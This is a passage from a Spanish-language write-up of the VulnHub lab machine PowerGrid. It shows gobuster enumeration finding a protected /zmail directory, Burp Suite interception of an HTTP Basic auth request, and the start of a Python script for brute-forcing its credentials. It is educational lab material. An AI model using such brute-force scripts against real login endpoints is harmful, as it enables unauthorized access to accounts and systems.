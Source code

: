 ```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 313] [--> http://192.168.0.37/images/]
/zmail                (Status: 401) [Size: 459]
```
# Fase de Explotación

Vemos el directorio **/zmail** y tratamos de acceder a el, nos encontramos con que necesitamos autentificarnos, en la descripción de la maquina ya nos dejaba entre ver que podía ser posible que necesitásemos hacer uso de la fuerza bruta, podríamos hacerlo con herramientas com hydra por ejemplo pero en esta ocasión haremos un script en **python3**.

Lo primero que haremos será interceptar la petición con **BurpSuite**, la mandaremos al repeater con **CTRL+R** 

[<img src="/assets/images/vulnhub/PowerGrid/captura2.png">](/assets/images/vulnhub/PowerGrid/captura2.png)
En color azul podemos ver como se manda la **Authorization** y el parton que se emplea, en este caso se manda con este formato test:test y luego se codifica en **Base64** y se envia al servidor con el metodo GET, en rojo vemos la respuesta del servidor que es **401 unauthorized** nos fijaremos en todo esto para hacer el script en python

```python
#!/usr/bin/env python3

import requests
import sys
import signal
import time
from base64 import b64encode
from pwn import log

def ctrlc(signal, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, ctrlc)

main_url = "http://ip/zmail"

def make_authentication(cadenab64, user, password, p1):
    cadenab64 = cadenab64.decode()
    headers = {
        'Authorization': 'Basic %s' % cadenab64
    }
```